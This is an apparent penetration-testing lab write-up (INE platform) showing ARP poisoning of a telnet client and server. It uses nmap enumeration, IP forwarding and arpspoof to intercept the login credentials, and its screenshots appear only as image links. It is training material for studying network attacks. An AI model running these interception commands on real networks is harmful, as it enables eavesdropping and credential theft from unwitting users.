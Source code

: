 # 🔬ARP Poisoning

## Lab 3 - ARP Poisoning <a href="#lab-3-arp-poisoning" id="lab-3-arp-poisoning"></a>

> 🔬 _INE Platform Lab_
>
> * **ARP Poisoning** attack to a `telnet` server
>   * the client machine authenticates with the `telnet` server every 30sec
> * Find the `telnet` login credentials
> * Tools: **`arpspoof`** & **`Wireshark`**

## Enumeration

```bash
ip a
```

<figure><img src="../../../../.gitbook/assets/image (21) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap -sn 10.100.13.0/24  
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap 10.100.13.0/24  
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ARP Poisoining

* Configure the Kali instance to forward IP packets:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

* Perform the ARP poisoning attack

```bash
arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36   
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
telnet 10.100.13.36
```

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>







